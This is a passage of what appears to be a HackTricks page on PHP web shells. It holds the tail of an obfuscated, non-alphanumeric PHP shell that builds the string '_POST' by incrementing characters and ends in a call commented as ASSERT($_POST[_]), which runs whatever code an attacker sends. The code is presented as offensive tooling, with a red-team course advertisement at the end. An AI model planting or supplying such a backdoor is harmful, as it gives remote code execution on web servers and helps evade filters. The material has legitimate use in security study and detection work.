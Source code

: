 ```php
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```
<details><summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
